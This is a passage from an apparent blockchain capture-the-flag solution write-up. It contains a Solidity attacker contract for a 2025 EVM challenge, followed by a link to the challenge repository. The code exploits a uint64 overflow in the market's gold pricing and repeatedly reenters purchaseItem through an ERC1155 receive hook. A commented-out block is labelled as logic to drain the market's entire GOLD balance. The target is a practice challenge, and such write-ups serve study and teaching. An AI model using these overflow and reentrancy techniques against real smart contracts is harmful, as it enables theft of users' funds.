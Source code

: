 ```solidity
        market=_market;
        token=market.token();
    }

    function pwn()public payable{
        uint256 u_64_max=2**64;
        uint256 init_overflow_amount=(price* balance) %u_64_max;
        uint256 init_buy_amount=balance-(init_overflow_amount/price);
        uint256 eth_to_send= uint64(uint256(init_buy_amount)* uint256(price));
        market.buyGold{value:eth_to_send}(uint64(init_buy_amount));
        balance-=init_buy_amount;
        token.setApprovalForAll(address(market), true);
        listingIdToPurchase=market.listingsIds(0);
        market.purchaseItem(listingIdToPurchase, qunatityToPurchase);

        // Logic to drain Entire GOLD of TemU :)
        /*
        uint256 transfer_value= (u_64_max/uint256(price))- balance +1;
        token.safeTransferFrom(address(this), address(market), 0, transfer_value, "");
        uint256 current_market_balance= token.balanceOf(address(market), 0);
        eth_to_send= uint64(uint256(current_market_balance)* uint256(price));
        market.buyGold{value:eth_to_send}(uint64(current_market_balance));
        console.log(token.balanceOf(address(market), 0));
        */
    }

    function onERC1155Received(
        address,
        address,
        uint256 id,
        uint256,
        bytes memory
    ) public virtual override returns (bytes4) {
        
        if(count<9 && id==2){
            count+=1;
            market.purchaseItem(listingIdToPurchase, qunatityToPurchase);

        }
        
        return this.onERC1155Received.selector;
    }

}
```




### Note
If you want to try this challenge locally, clone the [challenges repository](https://github.com/s4bot3ur/Blockchain-Challenges) and follow the [setup guide](https://github.com/s4bot3ur/Blockchain-Challenges/tree/main/EVM/2025). This setup is available only for 2025 challenge solutions. If you face any issues feel free to reach out on [discord](https://discord.com/users/666925625650446357) :)
